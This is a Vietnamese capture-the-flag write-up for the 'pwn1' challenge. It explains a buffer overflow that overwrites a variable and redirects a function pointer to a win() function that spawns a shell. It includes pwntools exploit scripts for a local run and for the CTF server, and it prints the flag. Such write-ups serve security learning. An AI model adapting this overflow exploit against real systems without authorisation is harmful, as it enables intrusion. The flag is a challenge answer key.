 # pwn1
## Kịch bản
- Ta phải ghi đè lên biến `a` để control hàm `ptr_func()`

- Chúng ta thấy có hàm `win()`, hàm này thực hiện chức năng lấy shell của server để thực hiện chương trình

-> Ghi đè lên biến `a` để control hàm `ptr_func()`, sau đó ghi đè lên địa chỉ hàm `hello` để trỏ về hàm `win`
## Solution
- Check bảo mật của file, ta thấy có dòng `No PIE` tức là địa chỉ giữ nguyên không bị thay đổi -> Có thể tính toán offset 1 cách dễ dàng

- Ghi đè biến `buffer` lên biến `a`


`0x004040F0 - 0x00404060 = 0x90`
-> Ghi đè `144 - 8 (0xDEADBEEF) = 136` bytes + 8 bytes của `0xDEADBEEF`
- Thay thế địa chỉ hàm `ptr_func()` để trỏ đến địa chỉ hàm `win()`
- Lấy địa chỉ hàm `win()` để lấy shell của chương trình

- Viết code lấy shell chương trình
```Python
from pwn import *

p = process("./pwn1")

#Ghi đè
payload = b"a"*136
payload += p64(0xDEADBEEF)
win = 0x000000000040130c
payload += p64(win)

p.sendlineafter(b"Enter your name:", payload)
p.interactive()
```
- Lúc này mình đã lấy được shell của chương trình, tức là ghi đè thành công và control được địa chỉ của hàm ptr_func()

- Tiến hành remote lên server
```Python
#ret2win
from pwn import *

#p = process("./pwn1")
p = remote("14.225.255.41", 13331)

payload = b"a"*136
payload += p64(0xDEADBEEF) #chuyen chuoi hex sang 8 bytes

win = 0x000000000040130c #dia chi ham win
payload += p64(win)

p.sendlineafter(b"Enter your name: ", payload)
p.interactive()
```
## Flag
```PTITCTF{fl0w_fl0w_0v3rfl0w_g3t_w1n}```